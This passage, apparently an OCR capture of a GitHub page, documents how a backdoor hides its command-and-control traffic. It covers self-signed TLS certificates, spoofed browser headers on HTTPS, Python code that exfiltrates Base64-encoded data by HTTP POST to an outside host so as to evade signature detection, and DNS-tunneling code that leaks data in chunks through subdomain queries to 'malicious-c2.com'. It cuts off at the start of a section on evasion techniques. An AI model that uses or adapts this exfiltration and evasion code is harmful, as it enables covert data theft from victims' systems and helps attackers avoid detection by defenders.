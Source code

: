 #### **Certificate Generation**
Self-signed certificates are generated using OpenSSL:
```bash
openssl req -x509 -newkey rsa:4096 -nodes -out server.crt -keyout server.key -days 365
```

#### **Encryption Workflow**
- **Client-Side**: Wraps the socket in an SSL context using `ssl.create_default_context()`.
- **Server-Side**: Loads the certificate and key to establish an SSL-wrapped connection.

---

### **3. Mimicking HTTP/S Traffic**
To blend with normal web traffic, the backdoor uses HTTPS (port 443) and spoofs HTTP headers to mimic legitimate browser requests. This technique leverages the fact that HTTPS traffic is rarely blocked and is difficult to inspect without decryption.

#### **HTTP POST Exfiltration**
Data is exfiltrated via HTTP POST requests, with payloads encoded in Base64 to avoid signature-based detection. Example using the `requests` library:

```python
import requests, base64

def exfiltrate_data(data):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
        "Content-Type": "application/json"
    }
    encoded_data = base64.b64encode(data).decode()
    response = requests.post("https://legit-service.com/api", json={"data": encoded_data}, headers=headers)
```

#### **DNS Tunneling Alternative**
For environments where HTTP/S is restricted, DNS tunneling is used to exfiltrate data via subdomain queries. Example using `dnspython`:

```python
import dns.resolver

def exfiltrate_dns(data):
    domain = "malicious-c2.com"
    for chunk in [data[i:i+63] for i in range(0, len(data), 63)]:
        resolver = dns.resolver.Resolver()
        resolver.resolve(f"{chunk}.{domain}", 'A')
```

---

### **4. Stealth and Evasion Techniques**
The backdoor employs multiple strategies to avoid detection by firewalls and IDS:
